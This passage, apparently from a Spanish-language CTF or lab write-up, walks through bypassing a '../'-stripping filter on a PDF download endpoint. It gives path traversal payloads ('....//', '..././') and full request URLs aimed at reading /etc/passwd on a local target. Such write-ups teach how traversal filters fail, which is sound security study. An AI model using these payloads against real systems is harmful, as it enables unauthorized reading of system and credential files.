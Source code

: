 Siguiendo ese pensamiento, si enviamos:

```txt
nombreArchivo = ../../../../../../../../../../../etc/passwd
> ¿nombreArchivo contiene ../?
> si
ruta = /esta/es/la/ruta/de/los/pdf/<nombreArchivo>
ruta = /esta/es/la/ruta/de/los/pdf/../../../../../../../../../../../etc/passwd
ruta = /esta/es/la/ruta/de/los/pdf/etc/passwd
```

Obtendríamos el error que ya sabemos...

... pensando ...

Hay una prueba linda, pero vamos a depender de la lógica que no conocemos.

* Pensamos que se están eliminando los saltos (`../`).
* ¿Qué pasaría si enviáramos `....//` o `..././`
* La lógica removería `../` de `....//` (o de `..././`) y al final obtendríamos `../`!

Solo que para que esto pase estamos sujetos a que los desarrolladores hayan implementado mal la validación, ya que si están removiendo los saltos HASTA QUE NO EXISTAN MÁS COINCIDENCIAS, tamos pailas.

Este escenario nos liquida la idea:

```txt
nombreArchivo = ....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
> ¿nombreArchivo contiene ../?
> si
> entonces debemos remover sus coincidencias
nombreArchivo = ../../../../../../../../../../../../etc/passwd
> listo ¿nombreArchivo aún contiene ../?
> si
> entonces debemos remover sus coincidencias de nuevo (y las veces que sea necesario)
nombreArchivo = etc/passwd
ruta = /esta/es/la/ruta/de/los/pdf/<nombreArchivo>
ruta = /esta/es/la/ruta/de/los/pdf/etc/passwd
```

Pero como somos juakers y debemos probar de todo. En caso de que se esté validando UNA SOLA VEZ, podríamos bypassear el filtro:

```txt
nombreArchivo = ....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
> ¿nombreArchivo contiene ../?
> si
> entonces debemos remover sus coincidencias
nombreArchivo = ../../../../../../../../../../../../etc/passwd
> listo, ya eliminamos los ../, sigamos
ruta = /esta/es/la/ruta/de/los/pdf/<nombreArchivo>
ruta = /esta/es/la/ruta/de/los/pdf/../../../../../../../../../../../../etc/passwd
ruta = /etc/passwd
```

Así que intentemos a ver queeeeeeeeeee:

```txt
http://127.0.0.1/regulacion/archivos/descargar?nombreArchivo=....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
> o (da igual cual, pero para que sepas que hay varias opciones)
http://127.0.0.1/regulacion/archivos/descargar?nombreArchivo=..././..././..././..././..././..././..././..././..././..././..././..././etc/passwd
```
